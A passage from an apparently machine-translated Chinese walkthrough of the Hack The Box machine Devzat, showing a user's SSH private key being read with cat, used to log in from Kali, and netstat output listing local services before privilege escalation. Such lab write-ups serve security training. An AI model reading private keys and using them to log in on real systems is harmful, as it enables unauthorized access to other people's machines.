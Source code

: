 把这个密钥复制到 Kali 上的一个文件中:

```
patrick@devzat:~/pets$ cd /home/patrick/

patrick@devzat:~$ cat .ssh/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<SNIP>
n3LMfTlr/Fl0V3AAAADnBhdHJpY2tAZGV2emF0AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

现在 SSH 在使用私钥:

```
┌──(root💀kali)-[~/htb/devzat]
└─# ssh -i id_rsa patrick@devzat.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
Last login: Sun Oct 31 20:38:41 2021 from 10.10.14.37
patrick@devzat:~$
```

# Netstat

像往常一样，让我们先看看一些显而易见的东西，如果没有什么突出的东西，那么我们可以让 LinPEAS 过来帮忙。当我看到开放的港口时，我注意到一些有趣的事情:

```
patrick@devzat:~$ netstat -tunepl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      1000       36107      838/./petshop       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        32508      -                   
tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      0          36829      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          34658      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      0          36030      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      0          36126      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      0          34660      -                   
tcp6       0      0 :::8000                 :::*                    LISTEN      1000       36036      840/./devchat       
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        32424      -
```

在本地主机/127.0.0.1 上监听的端口在 nmap 扫描中没有显示出来。我们可以查找在该地址上运行的进程:
